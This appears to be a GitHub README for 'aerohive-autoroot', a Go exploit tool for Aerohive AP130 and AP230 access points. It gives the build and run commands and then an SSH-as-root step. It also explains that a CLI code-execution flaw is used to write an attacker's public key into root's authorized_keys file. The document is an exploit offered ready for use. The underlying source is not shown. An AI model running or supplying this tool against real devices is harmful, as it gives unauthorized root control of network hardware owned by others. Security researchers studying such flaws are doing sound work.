 # aerohive-autoroot
Privilege escalation on aerohive devices

# Tested devices

- AP130
- AP230

# How to

```
go build .
./aerohive-autoroot --pubkey publickey.pub 10.0.0.1:22 # Where 10.0.0.1 is the device address
```

Wait until command completes then connect with:  

```
ssh root@10.0.0.1
```

# How it works
The Aerohive CLI has a flaw that allows code execution. Using this, it is possible to put a public key in the root users `.ssh/authorized_keys` file, and this gain full shell.
